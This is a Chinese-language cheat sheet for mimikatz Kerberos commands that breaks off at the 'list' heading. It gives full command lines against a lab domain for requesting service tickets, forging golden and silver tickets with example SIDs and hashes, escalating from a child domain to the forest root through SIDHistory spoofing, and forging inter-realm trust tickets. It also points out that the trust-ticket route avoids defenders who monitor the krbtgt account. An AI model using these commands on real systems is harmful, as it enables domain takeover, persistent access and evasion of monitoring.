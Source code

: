 ```

## ask

可用于获取服务票证
```
mimikatz # kerberos::ask 0-40e10000-m3g9tr0n@krbtgt~HACKLAB.LOCAL-HACKLAB.LOCAL.kirbi /target:CIFS/dc.hacklab.local

mimikatz # kerberos::ask /rc4 0-40e10000-m3g9tr0n@krbtgt~HACKLAB.LOCAL-HACKLAB.LOCAL.kirbi /target:HTTP/dc.hacklab.local
```

## clist

 以MIT/Heimdall ccache格式列出门票
```
mimikatz # kerberos::clist
```

## golden

可以用来伪造金票和银票。它也可用于伪造域间信任密钥。

金票
```
mimikatz # kerberos::golden /domain:hacklab.local /sid:S-1-5-21-2725560159-1428537199-2260736313 /rc4:b5348d0a20a24a67ff544146a09cd292 /user:krbtgt /ticket:ticket.kirbi /groups:500,501,513,512,520,518,519
```

银票
```
mimikatz # kerberos::golden /domain:hacklab.local /sid:S-1-5-21-2725560159-1428537199-2260736313 /rc4:647dac3559c899c5fe4dad7723feb8c5 /user:m3g9tr0n /service:CIFS/dc.hacklab.local /target:dc.hacklab.local
```


**Golden ticket & SIDHistory spoofing**
当森林信任关系是双向的，有可能通过做SIDHistory欺骗，从一个子域升级到父根域。

```
mimikatz #kerberos::golden /domain:<domain_name> /sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name> /ticket:ticket.kirbi /sids:<sid_of_parent_domain>
```


**Inter-Realm Trust Tickets**
要获得森林信任密钥，必须使用 lsadump::trust /patch 命令。根据森林信任关系，使用信任密钥而不是 krbtgt 帐户可能更隐蔽，因为大多数防御机制都在监视 krbtgt 帐户

```
mimikatz # kerberos::golden /user:<user_name> /domain:<domain_name> /sid:<domain_sid> /sids:<sid_of_target_domain> /rc4:<trust_key_RC4_key> /service:krbtgt /target:<the_target_domain> /ticket:<file_to_save>
```

## hash

根据给定的明文密码计算出不同的kerberos哈希（NTLM,AES128,AES256）

```
mimikatz # kerberos::hash /user:m3g9tr0n /domain:hacklab.local /password:Super_SecretPass1!
```

## list

```